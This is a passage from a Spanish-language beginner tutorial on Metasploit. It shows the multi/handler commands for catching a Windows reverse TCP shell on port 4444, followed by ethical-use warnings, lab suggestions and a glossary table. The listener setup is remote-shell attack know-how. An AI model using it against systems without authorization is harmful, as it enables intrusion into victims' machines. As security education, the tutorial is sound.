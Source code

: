 ### **9️⃣ ¿Cómo abrir un listener en Metasploit?**

✅ En Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST TU_IP
set LPORT 4444
run
```

✔ Ahora esperas que la víctima se conecte.

---

### **10️ Precauciones éticas**

⚠️ **IMPORTANTE**:

✅ Solo usa Metasploit en:

✔ Entornos de prueba.

✔ Laboratorios.

✔ Con permiso explícito.

🚫 Nunca en redes o sistemas ajenos sin autorización.

✅ Es ilegal → hacking criminal.

---

✅ Ejemplos de entornos seguros:

- **TryHackMe**
- **Hack The Box**
- **Máquinas virtuales locales** (Kali + Metasploitable)

---

### **11️ Resumen MUY fácil**

| Concepto   | Explicación sencilla                                       |
| ---------- | ---------------------------------------------------------- |
| Metasploit | Herramienta para explotar vulnerabilidades                 |
| Exploit    | Código para aprovechar la falla                            |
| Payload    | Código malicioso que se ejecuta (shell, meterpreter, etc.) |
| Listener   | Donde tú esperas la conexión de la víctima                 |
| msfvenom   | Herramienta para generar payloads personalizados           |
| Uso ético  | Solo en entornos de prueba o con permiso                   |

---